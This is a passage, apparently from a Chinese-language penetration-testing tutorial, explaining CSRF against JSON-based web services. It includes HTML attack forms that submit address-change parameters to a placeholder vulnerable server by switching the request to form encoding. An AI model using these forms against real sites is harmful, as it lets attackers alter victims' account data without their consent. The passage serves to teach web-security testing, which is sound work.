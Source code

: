# Web 服务上的 CSRF

如今的 Web 应用程序通常使用对 Web 服务的调用来执行任务，而不是使用普通的 HTML 表单。这些请求通过 JavaScript 使用 XMLHttpRequest 对象完成，该对象允许开发人员创建 HTTP 请求并自定义方法、头部和主体等参数。

Web 服务通常接收与标准 HTML 表单不同格式的请求（例如，`parameter1=value1&parameter2=value2`），例如 JSON 和 XML。以下示例代码片段以 JSON 格式发送地址更新请求：

```
var xhr = new XMLHttpRequest(); 
xhr.open('POST', '/UpdateAddress'); 
xhr.setRequestHeader('Content-Type', 'application/json'); 
xhr.onreadystatechange = function () { 
  if (xhr.readyState == 4 && xhr.status == 200) { 
    alert(xhr.responseText); 
  } 
} 
xhr.send(JSON.stringify(addressData)); 
```

此请求的主体（即`POST`数据）可能如下所示：

```
{"street_1":"First street","street_2":"apartment 2","zip":54123,"city":"Sin City"} 
```

如果您尝试将此精确字符串作为 HTML 表单中的`POST`参数发送，服务器将出现错误，并且您的请求将无法处理。例如，提交以下表单将无法正确处理参数：

```
<HTML> 
  <BODY> 
    <FORM method="POST" action="http://vulnerable.server/UpdateAddress"> 
      <INPUT type="text" name='{
                           "street_1":"First street",
                           "street_2":"apartment 2",
                           "zip":54123,"city":"Sin City"}' value=""> 
      <INPUT type="submit" value="Submit"> 
    </FORM> 
  </BODY> 
</HTML> 
```

有几种方法可以利用 CSRF 对使用 JSON 或 XML 格式的请求进行攻击。

通常，Web 服务允许以不同格式传递参数，包括 HTML 表单格式；因此，您的第一个选择是将请求的`Content-Type`头更改为`application/x-www-form-urlencoded`。只需通过 HTML 表单发送请求即可实现此目的。但是，您不需要尝试发送 JSON 字符串；相反，您可以创建一个包含字符串中每个参数的输入的表单。在我们的示例中，HTML 代码的简单版本如下所示：

```
<HTML> 
  <BODY> 
    <FORM method="POST" action="http://vulnerable.server/UpdateAddress"> 
      <INPUT type="text" name="street_1" value="First street"> 
      <INPUT type="text" name="street_2" value="apartment 2"> 
      <INPUT type="text" name="zip" value="54123"> 
      <INPUT type="text" name="city" value="Sin City"> 
      <INPUT type="submit" name="submit" value="Submit form"> 
    </FORM> 
  </BODY> 
</HTML> 
```
